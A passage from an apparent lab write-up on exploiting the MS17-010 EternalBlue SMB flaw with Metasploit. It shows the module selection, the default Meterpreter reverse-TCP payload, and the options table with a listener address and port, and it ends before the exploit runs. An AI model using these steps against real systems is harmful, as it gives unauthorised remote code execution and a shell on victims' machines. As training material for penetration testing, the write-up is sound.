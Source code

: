 > Personally, my favourite option when exploiting this vulnerability is the PsExec option, `exploit/windows/smb/ms17_010_psexec`, as I find that it is a lot more stable.

However, for the sake of this lab/machine, we will use the very first option (option 0 - `exploit/windows/smb/ms17_010_eternalblue`).

```zsh
msf > use 0 

[*] No payload configured, defaulting to window/x64/meterpreter/reverse_tcp
```

We can see that the output states we have no payload configured, thus it has selected the default payload `window/x64/meterpreter/reverse_tcp`. In this case we do not need to make any changes to the payload as this should be fine for our current setup.

Next, we need to see what options are available for this module and check to see if we need to set any of them.

```zsh
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see ...
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.174.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```
